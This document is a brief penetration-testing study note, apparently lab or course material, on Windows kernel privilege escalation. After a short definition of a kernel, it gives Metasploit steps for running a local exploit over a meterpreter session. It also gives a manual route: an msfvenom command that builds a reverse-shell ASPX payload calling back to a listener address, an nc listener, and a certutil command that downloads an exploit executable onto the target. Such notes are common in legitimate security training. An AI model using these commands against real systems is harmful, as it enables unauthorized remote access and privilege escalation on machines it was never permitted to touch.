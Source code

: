 04._Kernel_Exploits

04. Kernel Exploits

## Overview:
Kernel:
- Computer program that controls everything in the system
- Facilitates interactions between hardware and software components
- A translator
![d7c0dbe362715c030c0f71b7266335b4.jpg](../../_resources/72b548ccbc644829ac11601147c18fe3.jpg)
![aab0d8459510021d15a6c010024fb06e.jpg](../../_resources/451ea1dd2aa64aa79e19a31db20837ec.jpg)
List of windows kernel exploits: https://github.com/SecWiki/windows-kernel-exploits

### Escalation with Metasploit
https://seclists.org/fulldisclosure/2010/Jan/341 is the used exploit
- Get a meterpreter session
- `background` or control-z
- `search MS##-##`
- `use exploit/windows/local/STUFF`
- `sessions`
- `set session #`
- `set LHOST IP`
- `set LPORT 5555` # make sure it is different than the meterpreter port
- `run`
- You may need to run multiple times/change settings with `options` again

### Manual Escalation without Metasploit (uploading aspx file)
#### Getting a shell
- `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=4444 -f aspx > manualshell.aspx`
- `nc -nvlp 4444` # Listening for shell
- Run the aspx file on the web server or whatever

#### Priv Escalation

- Search for exploits in google or https://github.com/SecWiki/windows-kernel-exploits
- Download, (compile,) run on machine!
- Transferring file:
	- `python -m SimpleHTTPServer 80` or `python3 -m http.server 80`
	- `certutil -urlcache -f http://10.10.14.25/MS10-059.exe ms.exe`
